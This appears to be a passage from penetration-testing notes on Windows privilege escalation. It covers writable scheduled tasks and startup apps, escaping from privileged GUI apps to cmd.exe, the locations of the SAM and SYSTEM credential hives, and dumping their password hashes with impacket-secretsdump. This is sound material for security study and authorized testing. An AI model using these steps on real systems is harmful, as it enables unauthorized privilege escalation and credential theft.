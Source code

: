 ## Schedules Tasks

```bash
schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

## Startup Apps

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp #Startup applications can be found here
#Check writable permissions and transfer
#The only catch here is the system needs to be restarted
```

## Insecure GUI apps

```bash
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```
## SAM and SYSTEM

- Check in following folders

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

#Regex, first go to c:
dir /s SAM
dir /s SYSTEM
```

- Obtaining Hashes from SYSTEM and SAM

```bash
impacket-secretsdump -system SYSTEM -sam SAM local #always mention local in the command
#Now a detailed list of hashes are displayed
```
